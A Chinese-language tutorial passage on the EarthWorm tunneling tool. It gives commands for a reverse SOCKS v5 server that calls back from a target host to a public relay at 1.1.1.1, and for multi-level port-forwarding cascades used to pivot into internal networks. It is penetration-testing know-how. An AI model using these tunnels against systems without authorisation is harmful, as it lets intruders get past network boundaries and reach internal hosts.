 1.  反弹 SOCKS v5 服务器

这个操作具体分两步：

a) 先在一台具有公网 ip 的主机 A 上运行以下命令：

\$ ./ew -s rcsocks -l 1080 -e 8888

b) 在目标主机 B 上启动 SOCKS v5 服务 并反弹到公网主机的 8888 端口

\$ ./ew -s rssocks -d 1.1.1.1 -e 8888

成功。

1.  多级级联

工具中自带的三条端口转发指令，它们的参数格式分别为：

\$ ./ew -s lcx_listen -l 1080 -e 8888

\$ ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999

\$ ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999

通过这些端口转发指令可以将处于网络深层的基于 TCP 的服务转发至根前, 比如 SOCKS v5。

首先提供两个 “二级级联” 本地 SOCKS 测试样例：

a) lcx_tran 的用法

\$ ./ew -s ssocksd -l 9999

\$ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999

b) lcx_listen、lcx_slave 的用法

\$ ./ew -s lcx_listen -l 1080 -e 8888

\$ ./ew -s ssocksd -l 9999

\$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999

再提供一个 “三级级联” 的本地 SOCKS 测试用例以供参考

\$ ./ew -s rcsocks -l 1080 -e 8888

\$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999

\$ ./ew -s lcx_listen -l 9999 -e 7777

\$ ./ew -s rssocks -d 127.0.0.1 -e 7777

数据流向: SOCKS v5 -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks

注: 以上内容来源参考自官网或者工具里面的 Readme

### Earthworm 使用方法一【正向代理】

> Win7 主机 ip:192.168.192.1
> 
> Win7 主机 ip:192.168.192.9

目标网络边界存在公网 IP 且可任意开监听端口：
